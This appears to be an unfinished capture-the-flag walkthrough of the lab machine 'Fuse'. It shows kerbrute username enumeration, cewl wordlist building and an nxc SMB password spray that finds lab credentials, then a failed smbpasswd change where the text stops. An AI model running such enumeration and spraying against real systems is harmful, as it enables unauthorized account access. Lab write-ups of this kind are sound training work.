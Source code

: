 # 📦 Fuse

<figure><img src="../../../.gitbook/assets/image (186).png" alt=""><figcaption></figcaption></figure>

First i scan for open ports:

<figure><img src="../../../.gitbook/assets/image (187).png" alt=""><figcaption></figcaption></figure>

I try enumerating various services like smb, ldap and rpc but no good so i hop on the webserver after adding fabricorp.local to hosts file

<figure><img src="../../../.gitbook/assets/image (188).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (189).png" alt=""><figcaption></figcaption></figure>

When clicking on view we see some possible usernames so i add all of them in a file and it will be helpful later:

<figure><img src="../../../.gitbook/assets/image (190).png" alt=""><figcaption></figcaption></figure>

We can quickly check if the usernames are valid with kerbrute:

```
./kerbrute userenum -d fabricorp.local --dc 10.129.2.5 ../users
```

<figure><img src="../../../.gitbook/assets/image (191).png" alt=""><figcaption></figcaption></figure>

Now we need to craft a password for those usernames:

```
cewl -d 7 -m 8 --with-numbers -w cewl.out http://fuse.fabricorp.local/papercut/logs/html/index.htm
```

and now we combine our usernames and passwords and spray:

```
nxc smb 10.129.2.5 -u ../users -p cewl.out
```

<figure><img src="../../../.gitbook/assets/image (192).png" alt=""><figcaption><p>tlavel:Fabricorp01 // bhult:Fabricorp01</p></figcaption></figure>

Now that we know their old password we can change them with a tool called smbpasswd:

Will come back later i have problems changing the SMB passwd:

```
machine 10.129.2.5 rejected the password change: Error was : The transport connection is now disconnected..
&
Failed to find entry for user bhult@10.129.2.5.
```
